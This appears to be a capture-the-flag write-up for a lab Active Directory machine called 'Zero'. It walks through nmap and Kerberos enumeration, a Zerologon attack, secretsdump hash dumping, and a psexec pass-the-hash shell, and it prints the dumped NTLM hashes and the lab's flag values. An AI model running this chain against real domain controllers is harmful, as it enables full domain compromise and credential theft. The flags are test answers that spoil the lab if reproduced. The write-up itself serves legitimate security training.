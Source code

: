 # ZERO / Active Directory

![](../.gitbook/assets/5c7dbc78966d4e10a5a210a22e3f3906.png)

## NMAP SCAN

```text
sudo nmap -sC -sV -p- 172.31.1.29 -vv
```

{% hint style="info" %}
You can use the alias function in your .zshrc or .bashrc located in your home directory.

Like: `alias nscan='sudo nmap -sC -sV -vv -p-' to only use nscan 172.31.1.29`
{% endhint %}

```text
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-03-15 19:50:22Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Zero.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Zero.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: ZERO
|   NetBIOS_Domain_Name: ZERO
|   NetBIOS_Computer_Name: ZERO-DC
|   DNS_Domain_Name: Zero.csl
|   DNS_Computer_Name: Zero-DC.Zero.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-15T21:13:56+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49685/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49705/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49751/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49883/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## ADD THE DNS DOMAIN NAME TO YOUR /ETC/HOSTS

```text
Zero.csl
```

## SMB ENUMERATION

* Nothing to see here 😡 

## KERBEROS ENUMERATION

### USER ENUMERATION

```text
kerbrute -users /usr/share/seclists/Usernames/Names/names.txt -domain ZERO -dc-ip Zero.csl
```

![](../.gitbook/assets/a7e35ecbdd6844579fb1c749a110b3b2.png)

### ASREPRoast

![](../.gitbook/assets/6999a81a61634f8e8095f3f45465411f.png)

## LDAP ENUMERATION

```text
nmap -n -sV --script "ldap* and not brute" -p 389 Zero.csl
```

```text
PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: Zero.csl, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
------------REDACTED---------------
```

## ZERO LOGON

![](../.gitbook/assets/70c82ba94ddb472c9a8c2a7e27d44376.png)

```text
sudo secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 '/ZERO-DC$@172.31.1.29'
```

![](../.gitbook/assets/e30861999e9346ee8c2170db00ffd24e.png)

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:36242e2cb0b26d16fafd267f39ccf990:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a190af9837b4381407a3b689e0c839cf:::
jared:1104:aad3b435b51404eeaad3b435b51404ee:36242e2cb0b26d16fafd267f39ccf990:::
ZERO-DC$:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

## GET SHELL

```text
psexec.py Administrator@172.31.1.29 -hashes aad3b435b51404eeaad3b435b51404ee:36242e2cb0b26d16fafd267f39ccf990
```

![](../.gitbook/assets/b55925decef349b3ab8c54f90ad89deb.png)

## FLAGS

### USER

```text
d839c4ab769c3bb84207b7ec6808b1e2
```

### ROOT

```text
ba08f724b22cd1d3cf890e45b3acd4de
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

